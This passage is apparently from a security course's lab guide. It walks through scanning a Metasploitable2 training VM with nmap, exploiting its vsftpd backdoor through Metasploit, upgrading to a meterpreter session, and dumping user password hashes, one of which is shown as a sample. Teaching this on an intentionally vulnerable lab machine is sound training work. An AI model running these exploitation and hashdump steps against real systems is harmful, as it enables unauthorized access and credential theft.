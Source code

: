         nmap -sV -p1-65535 192.168.55.102
        
    Versions for one specific port:
        
        nmap -sV -p80 192.168.55.102

2.  Note that the service "vsftpd" is running on part 21. In Kali, from a `msfconsole` prompt, search for a vsftpd exploit:
    
        search vsftpd
        
    Arm the exploit, and set any necessary options (`show options`). Check available payloads:
    
        show payloads
        
    You will see that a meterpreter shell is not available for this exploit -- at least, not initially. Instead you will get a very basic unix shell.
    
    Run the exploit. You will see a final line saying something along the lines of "Command shell session opened..." followed by... nothing. Did the exploit fail? No! You have a shell, albeit a very basic one.
    
    Type `id` to see who you are. Type other familiar commands, such as `ls`, `pwd`, and `cat [filename`]. You do not have tab-completion, sadly. Although you do have a few basic commands. Run:
    
        help
        
    Notice that you have `download` and `upload` commands. This can be useful to steal files without having to use `scp`. However, you cannot run metasploit postmodules from within this sessions.
    Let's fix that by upgrading to a meterpreter session.
    
    1.  Background your session.
    2.  Arm the following postmodule:
            
            use post/multi/manage/shell_to_meterpreter
        
        This command will use our first shell to upload and initiate a meterpreter shell session.
        
        Type `show options`. Set the needed options, including the session number for the background session. Launch the post-module. A new meterpreter session should be created. Find the session id of this
        new sessions (run `sessions`), and interact with it (`sessions [sessionid]`).
        
        Type `help` again. You now have more meta-commands available, including accses to postmodules from the shell.
        
    3.  Let's hashdump metasploitable2. This will give you a list of usernames and password hashes. You can later crack these hashes on Kali.
        
        From your meterpreter session,
        
            run post/linux/gather/hashdump
            
        This will print all usernames and hashes to the console. It will also save the information to a file in the `/root/.msf4/loot/` folder. Make sure you 
        know how to find this file -- you can use it to crack hashes in *hashcat* or *john the ripper*. View the contents of the file in a separate kali terminal by `cat`ing it.
        
        {% include lab_question.html question='What is the salt and hash for the Postgres user? For example, the salt and hash for the msfadmin user is <code>msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/</code>' %}
        